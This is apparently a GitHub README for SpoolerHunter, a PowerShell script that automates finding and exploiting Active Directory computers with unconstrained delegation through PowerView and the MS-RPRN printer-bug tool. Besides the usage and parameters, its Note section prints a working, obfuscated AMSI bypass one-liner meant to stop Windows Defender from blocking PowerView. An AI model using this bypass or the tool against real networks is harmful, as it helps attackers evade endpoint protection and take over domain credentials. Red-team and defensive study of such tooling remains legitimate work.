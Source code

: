 # SpoolerHunter
<h1>Description:</h1>
SpoolerHunter is a PowerShell script designed to automate the detection and exploitation of unconstrained delegation computers in a domain environment. The script utilizes the PowerView module to identify vulnerable machines and exploits them using the MS-RPRN.exe tool. It provides options to specify a target machine for the scan and enable verbose output for detailed information during execution.
<h1>Usage:</h1>
<div style="background-color: #f5f5f5; /* Light gray background */
            border: 1px solid #ccc; /* Gray border */
            border-radius: 5px; /* Rounded corners */
            padding: 10px; /* Padding around the content */
            margin-bottom: 20px; /* Margin at the bottom */
            color:red;
            font-family: Arial, sans-serif; /* Font family */
            font-size: 14px; /* Font size */
            line-height: 1.5; /* Line height */
            overflow-x: auto; /* Enable horizontal scrolling if needed */">
    <pre><code>.\SpoolerHunter.ps1 [-TargetMachine [String]] [-Verbose] [-h]</code></pre>
</div>
<h1>Parameters:</h1><br/>
<ul>
	<li>
		<b>-TargetMachine [String]</b>: Specifies the machine which is allowed to delegate. If not provided, the script scans for unconstrained delegation computers in the domain.		
	</li>
	<li>
		<b>-Verbose</b>: Enables verbose output, displaying detailed information about the scan and exploitation process.
	</li>
	<li>
		<b>-h</b>: Displays the help message, providing information about the script's usage, parameters, and examples.
	</li>
</ul>
<h1>Note:</h1>
<p>use the following AMSI bypass if PowerView is getting blocked by windows defender.</p>
<pre><code>S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )</code></pre>
<h1>Resources:</h1>
<ul>
	<li><a href="https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1"><b>PowerView</b></a></li>
	<li><a href="https://github.com/leechristensen/SpoolSample"><b>MS-RPRN</b></a></li>
</ul>
